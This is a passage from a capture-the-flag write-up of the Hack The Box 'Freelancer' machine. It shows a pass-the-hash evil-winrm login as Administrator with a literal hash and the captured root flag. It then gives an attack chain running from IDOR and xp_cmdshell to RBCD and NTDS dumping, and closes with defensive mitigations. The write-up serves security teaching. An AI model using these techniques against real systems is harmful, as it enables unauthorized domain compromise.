

I authenticate as Administrator via Pass-the-Hash:

```shell
kali㉿kali$ evil-winrm -u Administrator -H 0039318f1e8274633445bce32ad1a290 -i freelancer.htb
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
freelancer\administrator
*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
046813ca58547b75b268228c0fd30db8
```

Full domain compromise achieved.

---

## Final Results

| Flag | Status |
|:--|:--|
| **User Flag** (mikasaAckerman) | ✅ Captured |
| **Root Flag** (Administrator) | ✅ Captured |

```
Nmap → Web Enumeration → IDOR → OTP Bypass → Django Admin
   → SQL Terminal → xp_cmdshell → Reverse Shell (sql_svc)
   → Config Credentials → Password Spray → RunasCs → mikasaAckerman
   → Memory Dump → Offline secretsdump → lorra199 (WinRM)
   → AD Recycle Bin (GenericWrite) → RBCD → Administrator Ticket
   → NTDS Hash Dump → Pass-the-Hash → Domain Administrator
```

---

## Mitigations & Security Recommendations

1. **Fix IDOR on Profile/Job Endpoints**: Enforce server-side authorization checks on every object reference (`/job/<id>/`, `/accounts/profile/visit/<id>/`) rather than relying on the client-supplied ID alone.
2. **Remove or Rework the QR/OTP Login Feature**: Do not encode identifying information (such as a user ID) in a reversible, unauthenticated format like Base64. Bind OTP tokens to a single user via a signed, opaque, and properly time-limited token, and invalidate it after first use.
3. **Restrict Password Reset from Bypassing Account Activation**: Ensure the account-recovery flow cannot be used as an alternate path to reactivate or authenticate a disabled/unactivated account.
4. **Remove Debug/Admin Tooling from Production**: Custom tools like the "SQL Terminal" should never be exposed in a production Django admin panel — they provide a direct path to full database and OS compromise.
5. **Disable `xp_cmdshell` by Policy**: Keep `xp_cmdshell` disabled in production SQL Server instances, and restrict `sp_configure` changes to a tightly controlled set of accounts, never a web application service account.
6. **Remove Plaintext Passwords from Installer/Config Files**: Delete or securely wipe installer configuration files (e.g. `sql-Configuration.INI`) after setup, and avoid storing service account passwords in plaintext anywhere on disk.
7. **Enforce Unique Passwords Across Service/Domain Accounts**: Password reuse between local service accounts and domain accounts enabled the password-spray pivot to `mikasaAckerman`.
8. **Restrict Access to Memory Dumps**: Treat memory dumps as highly sensitive artifacts. Store and transmit them only over encrypted, access-controlled channels, and purge them once troubleshooting is complete.
9. **Review AD Recycle Bin Group Membership and Rights**: Membership in the `AD Recycle Bin` group should not grant `GenericWrite` over the Domain Controller computer object. Audit and tighten ACLs on all AD objects, particularly the DC itself.
10. **Monitor for RBCD Abuse**: Alert on modifications to the `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute and on newly created computer accounts followed by S4U2Proxy ticket requests, both strong indicators of an RBCD attack in progress.
